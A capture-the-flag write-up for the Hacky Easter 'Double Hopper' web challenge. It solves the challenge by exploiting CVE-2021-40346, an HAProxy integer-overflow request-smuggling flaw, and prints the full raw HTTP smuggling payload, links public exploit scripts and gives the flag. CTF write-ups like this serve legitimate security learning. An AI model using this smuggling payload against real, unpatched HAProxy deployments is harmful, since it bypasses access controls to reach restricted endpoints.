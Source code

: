 # Challenge "Double Hopper"
<img src="banner.jpg" width="400px" alt="Banner Image" /><br/>

**Difficulty:** <span style="background-color: #e68f8f; padding: 5px; color: black;">☢️ hard</span> | **Category:** <span style="background-color: #ced4da; padding: 5px; color: black;">🌐 web</span>

Double hopper will not show you a double whopper.

[Double Hopper web site](http://ch.hackyeaster.com:2406/)

Note: The service is restarted every hour at x:00.

[config.txt](config.txt)

# Solution
The [config.txt](config.txt) file suggests a HAProxy web server configuration. Searching for path configuration vulnerabilities for that kind of server suggests the following possible exploit: https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

By using this approach, we see the flag path: https://github.com/alexOarga/CVE-2021-40346/blob/main/payload

[payload](payload)

    POST /index HTTP/1.1
    Host: ch.hackyeaster.com:2406
    Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
    Content-Length: 23

    GET /flag HTTP/1.1
    h: GET /index HTTP/1.1
    Host: ch.hackyeaster.com:2406


Output in HTML:

    <img src="/static/flag-55a8408e060a25096eb95be8b86f3a2c66f91193.png"/>

With this script and some adjustments, we can then download the flag.png https://github.com/alikarimi999/CVE-2021-40346/blob/main/exploit.py:

[solver.py](solver.py)

![flag.png](flag.png)

## The Flag 🚩
    he2024{Smu66l1m6_4ll_th3_t1m3!}
